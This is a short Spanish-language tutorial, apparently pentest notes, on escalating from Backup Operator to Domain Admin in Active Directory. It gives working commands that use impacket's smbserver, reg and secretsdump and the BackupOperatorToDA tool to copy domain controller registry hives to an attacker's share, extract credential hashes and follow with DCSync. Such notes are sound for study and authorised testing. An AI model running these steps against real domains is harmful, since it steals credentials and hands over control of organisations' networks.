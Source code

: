 # Backup Operator to Domain Admin Attack

### [Video](https://youtu.be/wUy2VXL2y-w)

## ¿Qué es?

- Es un ataque que permite a un atacante escalar privilegios de **Backup Operator** a **Domain Admin**.
- Se basa en la capacidad de los operadores de backup de realizar copias de seguridad de los controladores de dominio.
- Los operadores de backup pueden leer y escribir en los controladores de dominio.

## Ataque explicado
![alt text](./backupOperator.png)
- En este ejemplo el usuario **melissa** es miembro de **Backup Operators**.

### Metodo 1 con impacket
- Abris un smbserver con impacket
    - `impacket-smbserver -smb2support "share" .`
- Luego con el usuario backup operator podes hacer un backup de los archivos del DC
    - `impacket-reg domain/melissa@IP-DE-COMPUTADORA-QUE-MELISSA-PUEDE-ACCEDER backup -o \\IP-DE-TU-MAQUINA\share`
- Entonces con secretsdump podes obtener las credenciales de los usuarios
    - `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL`
    - Y con esto es muy probable que nos de un hash con un usuario que nos deje hacer un DCSync.

### Metodo 2 con BackUpOperatorToDA
- [Sitio oficial de la herramienta](https://kb.offsec.nl/tools/techniques/backupoperatortoda/)
- Nos descargamos el .exe y lo ponemos en la maquina que tiene el rol de backup operator.
- Tiras con impacket: `impacket-smbserver -smb2support "share" .`
- Y desde la otra PC: `.\BackupOperatorToDA_release.exe -t \\IP-DE-TU-MAQUINA\share -u melissa -p LA-PASSWORD -d DOMAIN.LOCAL`
- Luego es lo mismo, secretsdump + dcsync.